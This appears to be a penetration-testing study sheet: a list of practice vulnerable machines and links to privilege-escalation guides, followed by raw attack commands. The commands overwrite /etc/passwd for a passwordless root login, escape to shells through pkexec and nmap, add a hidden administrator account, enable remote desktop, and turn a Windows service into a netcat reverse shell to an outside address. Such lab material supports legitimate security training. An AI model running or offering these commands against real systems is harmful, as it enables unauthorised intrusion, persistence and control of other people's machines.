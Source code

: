 # Linux

### Beginner friendly

*   [Kioptrix: Level 1 (#1)](https://www.vulnhub.com/entry/kioptrix-level-1-1,22/)
*   [Kioptrix: Level 1.1 (#2)](https://www.vulnhub.com/entry/kioptrix-level-11-2,23/)
*   [Kioptrix: Level 1.2 (#3)](https://www.vulnhub.com/entry/kioptrix-level-12-3,24/)
*   [Kioptrix: Level 1.3 (#4)](https://www.vulnhub.com/entry/kioptrix-level-13-4,25/)
*   [FristiLeaks: 1.3](https://www.vulnhub.com/entry/fristileaks-13,133/)
*   [Stapler: 1](https://www.vulnhub.com/entry/stapler-1,150/)
*   [PwnLab: init](https://www.vulnhub.com/entry/pwnlab-init,158/)

### Intermediate

*   [Kioptrix: 2014](https://www.vulnhub.com/entry/kioptrix-2014-5,62/)
*   [Brainpan: 1](https://www.vulnhub.com/entry/brainpan-1,51/)
*   [Mr-Robot: 1](https://www.vulnhub.com/entry/mr-robot-1,151/)
*   [HackLAB: Vulnix](https://www.vulnhub.com/entry/hacklab-vulnix,48/)
*   [VulnOS: 2](https://www.vulnhub.com/entry/vulnos-2,147/)
*   [SickOs: 1.2](https://www.vulnhub.com/entry/sickos-12,144/)
*   [/dev/random: scream](https://www.vulnhub.com/entry/devrandom-scream,47/)
*   [pWnOS: 2.0](https://www.vulnhub.com/entry/pwnos-20-pre-release,34/)
*   [SkyTower: 1](https://www.vulnhub.com/entry/skytower-1,96/)
*   [IMF](https://www.vulnhub.com/entry/imf-1,162/)

* * *

# Windows

*   [Hack The Box](https://www.hackthebox.gr/en/login): Got a nice set of Windows machines from Windows 2000 up to Windows 8.1 I believe.
*   [Metasploitable 3](https://github.com/rapid7/metasploitable3/wiki), will download a trial version of Windows Server.
*   [https://github.com/magnetikonline/linuxmicrosoftievirtualmachines](https://github.com/magnetikonline/linuxmicrosoftievirtualmachines) you can download Windows VMs legally then hack your way through them through an unpatched vulnerability or setting up a vulnerable software.
*   Set up your own lab. Default Windows XP SP0 will give you the chance to try out a few remote exploits, or doing some privilege escalation using weak services.
*   [/dev/random: Sleepy](https://www.vulnhub.com/entry/devrandom-sleepy,123/) (Uses VulnInjector, need to provide you own ISO and key.)**[](https://www.vulnhub.com/entry/devrandom-sleepy,123/)**
*   [Bobby: 1](https://www.vulnhub.com/entry/bobby-1,42/) (Uses VulnInjector, need to provide you own ISO and key.)





Linux privesc step by step:

https://guif.re/linuxeop

https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/

https://github.com/TH3xACE/SUDO_KILLER



Windows privesc step by step:

https://www.absolomb.com/2018-01-26-Windows-Privilege-Escalation-Guide/

http://www.fuzzysecurity.com/tutorials/16.html

https://guif.re/windowseop



Linux



Compile locally

gcc -o exp 9545.c -Wl,--hash-style=both



Read bash history:

echo: .bash_history

find -name ".bash_history" -exec cat {} \;



Override /etc/passwd:

-rwxrwxrwx. 1 root root 1306 Apr 21 2016 /etc/passwd

Echo root::0:0:root:/root:/bin/bash > /etc/passwd



Default checks:

find / -perm -u=s -type f 2>/dev/null



/usr/bin/pkexec su

pkexec python -c "import pty; pty.spawn('/bin/sh')"



sudo-l

cat /etc/exports



Kernel Exploits

Generic: https://github.com/lucyoa/kernel-exploits

FreeBSD 9.0: https://www.exploit-db.com/exploits/28718

Ubuntu 16.04: https://www.exploit-db.com/exploits/39772

Linux 2.6.9-89.EL: https://www.exploit-db.com/exploits/9545

Linux beta 3.0.0-12-generic: https://gist.github.com/karthick18/1686299

Linux core 2.6.32-21: https://www.exploit-db.com/exploits/14814/

Diverse unix: https://github.com/Kabot/Unix-Privilege-Escalation-Exploits-Pack/blob/master/2009/CVE-2009-2692/2.6.18.c & https://github.com/Kabot/Unix-Privilege-Escalation-Exploits-Pack

Diverse windows: https://github.com/jivoi/pentest/blob/master/exploit_win/win_local_exploits.md



Windows

Windows add new administrator

net user /add oscp attacker

net localgroup administrators oscp/add

reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f



Authority/network service (asp.net shell)

Upload /usr/share/sqlninja/apps/churrasco.exe

churrasco -d "net user /add oscp oscp "

churrasco -d "net localgroup administrators oscp /add"

churrasco -d "NET LOCALGROUP "Remote Desktop Users" oscp/ADD"



Windows XP SP1 and earlier

sc config upnphost binpath= "C:\Inetpub\nc.exe -nv 10.11.0.128 5555 -e C:\Windows\system32\cmd.exe"

sc config upnphost obj= ".\LocalSystem" password= ""

sc config upnphost depend= ""

sc qc upnphost

http://www.fuzzysecurity.com/tutorials/16.html





check application:

wmic_info.bat (http://www.fuzzysecurity.com/scripts/13.html)

nmap: sudo nmap –interactive --> !sh

mysql: https://github.com/amonsec/exploit/blob/master/linux/privs/MysqlUDF/mysql_udf_exploit.sh



MS16032 --> check optimum write up htb

Exploit suggester: https://github.com/SecWiki/windows-kernel-exploits/tree/master/win-exp-suggester

https://github.com/amonsec/exploit/tree/master/windows/privs

checklist: https://github.com/netbiosX/Checklists/blob/master/Windows-Privilege-Escalation.md

